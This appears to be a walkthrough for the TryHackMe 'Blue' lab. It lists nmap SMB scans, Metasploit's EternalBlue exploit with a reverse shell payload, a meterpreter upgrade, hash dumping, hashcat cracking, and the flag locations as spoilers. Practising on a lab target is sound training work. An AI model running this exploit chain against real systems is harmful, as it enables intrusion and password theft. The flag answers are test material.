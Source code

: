 # Walkthrough For Lab Blue On TryHackMe

1. Scan the target using nmap :
```
nmap -sV -T5 <target ip>
```
2. Use nmap smb scripts  to find out which exploit it's vulnerable to (try all the ms* one by one):
list the scripts related to smb-vuln-ms with this command:
```
ls /usr/share/nmap/scripts | grep smb-vuln-ms
```
try them like this one by one
```
nmap -p 445 --script smb-vuln-ms06-025
```
after finding out search for exploit in metasploit
start metasploit
```
msfconsole
```
```
search ms17_010
```
```
use exploit/windows/smb/ms17_010_eternalblue
```
after selecting set the rhosts 
```
set rhosts <target ip>
```
set the payload for reverse shell
```
set payload windows/x64/shell/reverse_tcp
```
run the exploit with : `run` or `exploit`

after gaining the shell use : `whoami`\
the output will be : *NT AUTHORITY\SYSTEM*

background the session using : `ctrl + z` and confirm with `y`

time to upgrade the shell to meterpreter so, search in msfconsole 
```
search shell_to_meterpreter
```
then select
```
use post/multi/manage/shell_to_meterpreter
```
set the session using (list sessions using `sessions -i` note the number shown in the first column) :
```
set session <session number>
```
run the exploit and wait : `run` or `exploit`\
after successful exploitation list out sessions and connect to the meterpreter
```
sessions -i 
```
connect to the new session named meterpreter with
```
sessions -i <session number>
```
use the ps command to list out processes : `ps`\
then note the last process that have the value : *NT AUTHORITY\SYSTEM*
then migrate the process with this to gain privilege
```
migrate <process id>
```
now time to dump the hashes use
```
hashdump
```
note the hashes and identify the user\
other than admin or default and crack the hash with hashcat\
I stored the hash in hash.txt and using rockyou.txt as wordlist
```
hashcat -a 0 -m 1000 hash.txt /path/rockyou.txt
```
*Got the Password*\
Now Time to find the flags:
<details>
  <summary>spoiler alert</summary>
  <p>1. cd C:/ & cat flag1.txt </p>
  <p>2. cd C:/Windows/System32/Config & cat flag2.txt</p>
  <p>3. cd C:/Users/Jon/Documents/flag3.txt</p>
</details>




